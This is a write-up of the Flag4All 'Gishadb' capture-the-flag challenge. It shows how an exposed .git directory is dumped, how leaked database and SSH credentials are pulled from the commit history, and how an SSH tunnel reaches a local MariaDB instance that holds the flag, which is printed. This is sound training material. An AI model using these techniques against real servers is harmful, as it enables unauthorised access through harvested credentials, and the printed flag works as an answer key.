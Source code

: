 ```yaml
---
title: "Gishadb"
date: 2023-10-22T03:13:42+02:00
draft: false
tags: ['Forensics', 'Realistic']
categories:
  - 'Writeups'
  - 'Flag4All'
---
```


# Flag4All - Gishadb
---

## Category

> Realistic

## Description

Ce serveur écoute sur 2 ports ! 443 et 222. Trouvez un moyen d'obtenir le flag.

This server listen on two ports: 443 and 222. Find a way to get the flag.

## Link

https://gishadb.flag4all.sh

## Difficulty

**EASY** - 495 points

- Author: **Penthium2 (BZHack)**
---

{{< image src="/Gishadb/screen.png" caption="Screenshot" title="Screenshot" alt="Screenshot" >}}

## Write up

### .git dump

I highly recommend you to have [DotGit](https://github.com/davtur19/DotGit) extension installed for CTF and web audits.
It automatically checks for you if a **.git directory is exposed**. And that's what happened here when I opened the page. This extension also comes with an extraction tool.

{{< image src="/Gishadb/dotgit.png" caption="Dump it !" title="Dump it !" alt="Dump it !" >}}

After the whole extraction is done, we can first take a look at the git logs with ``git log``:

{{< image src="/Gishadb/commits.png" caption="commits" title="commits" alt="commits" >}}

Then I used ``git show <commit id>`` to show the content of each commit. And it didn't disappoint me:

{{< admonition type=info title="1. The main page content (not useful) AND db credentials (ofc useful)" open=false >}}
```diff
commit 02ef7e50a0bb9954d7819f8fd7c7b2c593db0d73
Author: penthium2 <penthium2@hotmail.fr>
Date:   Thu May 25 14:44:03 2023 +0200

    ipremier commit

diff --git a/index.php b/index.php
new file mode 100644
index 0000000..20e4fa0
--- /dev/null
+++ b/index.php
@@ -0,0 +1,13 @@
+<H1>Je suis un maitre du PHP et SQL</h1>
+<?php
+$cnx = new PDO('mysql:host=127.0.0.1;dbname=app;charset=utf8', 'app', 'db_Super_P4$$');
+
+// Partie "Requête"
+
+echo "<p>dans ma table <b>HAND</b></p>";
+$query = 'SELECT * FROM `hand` where id=1';
+$resultSet = $cnx->query($query);
+$element = $resultSet->fetch();
+echo "<p> voici le $element[1] de $element[2] et son id : $element[0]<p>";
+?>
+<h2> mais quel est la valeur de l'id 3 ?? </h2>
```
{{</admonition>}}

{{< admonition type=info title="2. \"Fixing\" the credentials leak (but they did not change)" open=false >}}

```diff
commit 6dbcaf8c22bbe74aa2562ac60f58602d8592347a
Author: penthium2 <penthium2@hotmail.fr>
Date:   Thu May 25 14:50:32 2023 +0200

    sécurisation

diff --git a/config.php b/config.php
new file mode 100644
index 0000000..35d2322
--- /dev/null
+++ b/config.php
@@ -0,0 +1,3 @@
+<?php
+$cnx = new PDO('mysql:host=127.0.0.1;dbname=app;charset=utf8', 'app', 'db_Super_P4$$');
+?>
diff --git a/index.php b/index.php
index 20e4fa0..5cd8a7d 100644
--- a/index.php
+++ b/index.php
@@ -1,7 +1,7 @@
 <H1>Je suis un maitre du PHP et SQL</h1>
 <?php
-$cnx = new PDO('mysql:host=127.0.0.1;dbname=app;charset=utf8', 'app', 'db_Super_P4$$');
-
+// ajout d'un iclude pour la s<C3>curit<C3>
+include("config.php");
 // Partie "Requête"

 echo "<p>dans ma table <b>HAND</b></p>";
```
{{</admonition>}}

{{< admonition type=info title="3. some SSH credentials! (very useful)" open=false >}}
```diff
commit 13c0faef33bf466602913bc3918094cfefea072f
Author: penthium2 <penthium2@hotmail.fr>
Date:   Thu May 25 14:52:44 2023 +0200

    ajout info ssh pour preprod

diff --git a/info_login b/info_login
new file mode 100644
index 0000000..d904e9b
--- /dev/null
+++ b/info_login
@@ -0,0 +1,2 @@
+loginssh : gishadb@192.168.124.1
+pass : iop
```
{{</admonition>}}

{{< admonition type=info title="4. Removing SSH creds (they di not change too)" open=false >}}
```diff
commit cfdccf9472e0b985abc372f90fa64352d744b5ad (HEAD -> master)
Author: penthium2 <penthium2@hotmail.fr>
Date:   Thu May 25 14:53:28 2023 +0200

    suppresion info preprod

diff --git a/info_login b/info_login
deleted file mode 100644
index d904e9b..0000000
--- a/info_login
+++ /dev/null
@@ -1,2 +0,0 @@
-loginssh : gishadb@192.168.124.1
-pass : iop
```
{{</admonition>}}

We now have:
- Database credentials
- SSH credentials

### Database dump

Then plan now is to connect to the server, and access the local database (not accessible remotely). However, a little thing will bother us after connecting to the port **222**:

![Fuck](/Gishadb/fuckssh.gif)

This program is impossible to leave, just have to close the terminal.

But anyway, we will go through an SSH tunnel, using ``-L`` flag, that allow us to forward one port on the server to our machine. We'll look for MySql port, **3306**
Using ``-N`` will also not prompt the green binary disaster.

Command is: ``ssh -N gishadb@gishadb.flag4all.sh -p 222 -L 3306:localhost:3306``

We can now, in another terminal, connect to the remote MySql server using ``app:db_Super_P4$$``:

```
$ mysql -u app -p -h 127.0.0.1
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 100238
Server version: 10.5.21-MariaDB-0+deb11u1 Debian 11
```

Now, need to show the databases, its tables, and then its content : 

```
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| app                |
| information_schema |
+--------------------+

MariaDB [(none)]> use app
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [app]> show tables;
+---------------+
| Tables_in_app |
+---------------+
| hand          |
| users         |
+---------------+

MariaDB [app]> select * from hand;
+----+-----------------------------+----------+
| id | finger                      | ring     |
+----+-----------------------------+----------+
|  1 | pouce                       | Penthium |
|  2 | index                       | Penthium |
|  3 | FLAG{TAK3_Care_Of_SSH_POWA} | Penthium |
|  4 | anulaire                    | Penthium |
|  5 | oriculaire                  | Penthium |
+----+-----------------------------+----------+
```

{{< admonition type=success title="Flag" open=false >}}
:triangular_flag_on_post: `FLAG{TAK3_Care_Of_SSH_POWA}`
{{< /admonition >}}
